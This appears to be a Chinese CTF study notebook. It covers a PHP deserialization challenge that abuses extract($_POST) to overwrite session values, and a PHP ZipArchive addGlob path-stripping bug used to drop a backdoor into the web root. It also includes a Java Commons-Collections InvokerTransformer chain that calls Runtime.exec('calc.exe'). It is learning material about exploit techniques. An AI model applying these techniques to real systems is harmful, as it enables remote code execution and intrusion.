 # [安洵杯 2019]easy_serialize_php

php反序列化，初看以为可控参数只有`$_SESSION['function'] = $function;`，而且又要用于下面的参数show_image反序列化判断，于是不知道怎么办了。

看完解析后发现了`extract($_POST);`，可以将POST数组的内容解包开。所以我们可以直接上传$_SESSION的数值。

最后有趣的一点：读取do0g.php文件时，返回的内容是`<?php`开头的源文件，浏览器却没有显示任何内容，导致我以为哪里出错了。

后来知道，<?被浏览器解析为了注释字符，不渲染。`<? ... ?>` 默认被当作注释

我将起诉我的浏览器和hackbar，从而转向yakit进行收发包！！！！！！！！！！

 
 

# [强网拟态23] web noumisotuitennnoka

[Bug](https://bugs.php.net/bug.php?id=72374)  #72374   ZipArchive::addGlob remove_path option strips first char of filename 

注意到源码中：

```php
$zip->addGlob($jsonDir . '/**', 0, ['add_path' => 'var/www/html/', 'remove_path' => $dev_dir]);
$zip->addGlob($jsonDir . '/.htaccess', 0, ['add_path' => 'var/www/html/', 'remove_path' => $dev_dir]);
```

我们令`subdir = /a (路径名只能为一个字母)`

则我们添加的文件名为`/tmp/a/** `

根据bug可知，当我们的remove_path为`/tmp/`时，文件名会多吃掉一个字母a，从而导致我们的文件解压到/var/www/html目录下，这个时候我们直接用clean删除.htaccess文件就能访问后门文件。
 
 

# java反序列化

重新学习了cc1, cc6

重点理解了cc1，cc6的入口，和如何把Runtime变成Runtime.class进行序列化

```java
InvokerTransformer it0 = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null});
InvokerTransformer it1 = new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},new Object[]{null,null});
InvokerTransformer it2 = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
Method getRuntimeMethod = (Method) it0.transform(Runtime.class);
Runtime runtime = (Runtime) it1.transform(getRuntimeMethod);
it2.transform(runtime);
// 最后三行等价于
it2.transform(it1.transform(it0.transform(Runtime.class)));
// 太麻烦，可用ChainedTransformer辅助
```
